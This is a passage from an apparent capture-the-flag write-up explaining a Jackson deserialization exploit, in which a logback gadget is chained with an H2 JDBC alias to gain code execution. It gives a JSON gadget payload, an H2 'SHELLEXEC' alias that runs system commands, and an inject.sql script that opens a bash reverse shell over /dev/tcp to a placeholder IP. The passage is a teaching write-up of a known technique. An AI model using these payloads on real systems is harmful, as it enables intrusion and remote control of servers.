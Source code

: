 Here, an attacker can inject a serialized `CommandTask` into an input stream that will be read by `CacheManager`, which in return invokes run. Therefore, he gains arbitrary command execution.
<br>

### Jackson library deserialization vulnerability POC
The *CVE* of interest is focusing mostly on the *Jackson* library. They found that when *Jackson* deserializes a specific class (`ch.qos.logback.core.db.DriverManagerConnectionSource`), it can be abused to instantiate a Java Database Connectivity *(JDBC)*, which is used to connect & interact with the dabase. To understand better let's break down the payload used in the [**POC**](https://blog.doyensec.com/2019/07/22/jackson-gadgets.html):

`$ "[\"ch.qos.logback.core.db.DriverManagerConnectionSource\", {\"url\":\"jdbc:h2:mem:\"}]"`

As said previously we use the `DriverManagerConnectionSource` class to pass an url, which will trigger [`setUrl`](https://www.javadoc.io/doc/ch.qos.logback/logback-core/1.1.11/ch/qos/logback/core/db/DriverManagerConnectionSource.html#setUrl(java.lang.String)). Afterwards, the object is serialized into a JSON object again. Consequently, the `getConnection()` [method](https://www.javadoc.io/static/ch.qos.logback/logback-core/1.1.11/ch/qos/logback/core/db/DriverManagerConnectionSource.html#getConnection()) is called which creates an in-memory database. This is further used to create a remote connection.
<br>

Until now, we've only got a way to generate a Server Side Request Forgery *(SSRF)*. So how could we turn this into a full chain RCE ?
In order to achieve that, the guys from [doyensec](https://doyensec.com/) leveraged the [H2](http://www.h2database.com/html/features.html) JDBC driver which has the capability to run SQL scripts from the JDBC url. This alone won't allow an attacker to run Java code inside the JVM context, however H2 has the capability to specify custom aliases containing java code [which can be abused](https://mthbernardes.github.io/rce/2018/03/14/abusing-h2-database-alias.html).

```sql
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
	java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream())
		.useDelimiter("\\A");
	return s.hasNext() ? s.next() : "";
}$$;
CALL SHELLEXEC('whoami')
```

As a result, we only need to serve a sql file to the target machine that makes the request to our in-memory *DB* with the use of `DriverManagerConnectionSource` and we have remote code execution.


## Leveraging what we've learned to own user

We've learned that we can use a deserialization vulnerability within Jackson to leverage a connection to a in-memory *DB*, which accepts aliases that can be used to execute commands. So, all wee need to do is:

1. *Prepare the `inject.sql` script*
```java
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
	java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream())
		.useDelimiter("\\A");
	return s.hasNext() ? s.next() : "";
}$$;
CALL SHELLEXEC('bash -i >& /dev/tcp/IP/PORT 0>&1')
```
